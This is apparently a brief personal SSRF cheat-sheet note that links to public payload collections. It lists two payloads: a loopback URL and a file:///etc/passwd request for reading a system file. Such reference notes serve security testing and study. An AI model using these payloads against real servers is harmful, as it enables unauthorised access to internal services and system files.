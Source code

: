 #ssrf 

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery
https://0xn3va.gitbook.io/cheat-sheets/web-application/server-side-request-forgery

# Base
```http
http://127.0.0.1/
```


# Read a file
```http
file:///etc/passwd
```